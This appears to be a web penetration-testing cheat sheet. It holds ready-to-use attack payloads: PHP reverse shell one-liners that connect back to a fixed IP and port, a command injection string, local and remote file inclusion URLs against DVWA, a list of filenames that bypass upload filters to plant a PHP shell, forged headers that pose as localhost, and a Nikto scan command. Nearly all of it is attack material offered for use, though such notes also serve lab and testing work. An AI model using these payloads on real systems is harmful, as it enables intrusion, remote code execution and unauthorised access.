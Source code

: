 # WEB

PHP
===

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


COMMAND INJECTION
=================

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`


LOCAL FILE INCLUSION
====================

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`  
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

FILE UPLOAD
===========

Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

shell.jpg.php (satisfies as check for jpg only)

shell.jpg.PhP (obfuscation)

shell.php;.jpg (sometimes can ignore whats after ";")

shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)

shell.php.test (defaults to first recognised extension ignoring "test")

shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)

.phtml (a commonly used php parsed extension often forgotten about!)

.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)

IP SPOOFING
===========

Accept: */*
x-forwarded-for: 127.0.0.1  
x-remote-IP: 127.0.0.1  
x-originating-IP: 127.0.01  
x-remote-addr: 127.0.0.1  
x-remote-ip: 127.0.0.1  
x-forwarded-for 127.0.0.1  

Sometimes referer needs to be deleted in the request.

Nikto
=====

Simple scan:

```
perl nikto.pl -host http://www.example.com
```
